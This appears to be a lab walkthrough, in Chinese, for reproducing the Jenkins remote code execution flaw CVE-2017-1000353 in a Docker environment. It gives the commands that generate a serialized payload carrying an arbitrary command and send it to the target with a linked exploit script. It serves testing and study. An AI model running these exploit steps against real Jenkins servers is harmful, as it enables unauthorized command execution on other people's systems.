


# Jenkins-CI 远程代码执行漏洞（CVE-2017-1000353）

## 原理

参考阅读 https://blogs.securiteam.com/index.php/archives/3171

## 环境搭建

执行如下命令启动jenkins 2.46.1：

```
docker-compose up -d
```

等待完全启动成功后，访问`http://your-ip:8080`即可看到jenkins已成功运行，无需手工安装。

## 测试过程

### 步骤一、生成序列化字符串

参考<https://github.com/vulhub/CVE-2017-1000353>，首先下载[CVE-2017-1000353-1.1-SNAPSHOT-all.jar](https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar)，这是生成POC的工具。

执行下面命令，生成字节码文件：

```bash
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
# jenkins_poc.ser是生成的字节码文件名
# "touch ..."是待执行的任意命令
```

执行上述代码后，生成jenkins_poc.ser文件，这就是序列化字符串。

### 步骤二、发送数据包，执行命令

下载[exploit.py](https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py)，python3执行`python exploit.py http://your-ip:8080 jenkins_poc.ser`，将刚才生成的字节码文件发送给目标：



进入docker，发现`/tmp/success`成功被创建，说明命令执行漏洞利用成功：


